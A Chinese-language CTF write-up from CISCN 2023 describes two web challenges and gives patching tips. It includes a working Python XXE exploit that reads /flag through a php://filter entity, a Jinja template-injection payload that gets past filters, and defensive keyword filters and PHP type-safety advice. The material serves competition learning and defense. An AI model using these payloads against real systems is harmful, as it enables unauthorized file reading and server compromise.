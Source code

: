 ```yaml
---
title: CISCN 2023 Write-Up & Tricks
date: 2023-07-07 00:28:12
tags:
- CISCN
- web
- Write-Up
categories: 
- CTF
---
```

# CISCN 2023 部分 Write-Up 及patch妙妙小技巧
## Web
### ezphp
变量覆盖+XXE外部实体注入任意文件读。  
Patch：修了extract就行  
exp:  
```python
import requests
file = "/flag"
username = "okok20"
data = {
    'username': f"""{username}""",
    'password': f"""y""",
    'user_xml_format': f"""<?xml version="1.0" encoding="utf-8"?><!DOCTYPE ANY [<!ENTITY content SYSTEM "php://filter/read=convert.base64-encode/resource={file}">]><userinfo><user><username>&content;</username><password>1</password></user></userinfo>""",
}
r = requests.post("http://175.20.20.196/register.php",data=data)
print(r.text)
r = requests.get(f"http://175.20.20.196/login.php?username={username}&password=2")
print(r.text)
```
### Ciscn_Search_Engine
Jinja模板注入，绕过滤字符。我们可以使用request调用get参数来绕过各种字符。   
```plaintext
{{()|attr(request.values.name1)|attr(request.values.name2)|attr(request.values.name3)()|attr(request.values.name4)(40)(request.values.name6)|attr(request.values.name5)()}}
post:
name1=__class__&name2=__base__&name3=__subclasses__&name4=pop&name5=read&name6="/flag"
```
Patch：把花括号干了。  

### 其他七七八八的Patch  
首先，我们是可以知道Patch失败的原因的，那么一定要确保不要Patch过猛导致服务异常；我们需要**优先确保服务正常工作，逐步加大Patch力度**。
#### 过滤关键字
无脑过滤可以迅速打上Patch！我们可以尽量构造一些正常流量中不太可能出现的字符组合来避免被判服务down掉。  
比如说，想要过滤Python模板注入，我们可以过滤如下组合：  
`|_`, `._`, `_c`, `_[`, `](`   
而对于SQL注入就更简单了：自己打一打，看看哪些函数、符号能利用，就直接过滤掉。  
#### 类型安全
如果涉及弱类型的语言，比如PHP，经常会有洞出在弱比较上，那么我们可以考虑如下几种手段：  
- 使用强比较：例如PHP/Js中使用`===`而非`==`；
- 在关键参数入口处进行正则化：例如，对于期望是整数的参数`iv`，就应强制让`iv=intval(iv)`转为整型；  

相信也可以发现国赛这种patch难度远低于attack的难度。建议**做题的初期当作没有攻击得分，先patch了再说**。
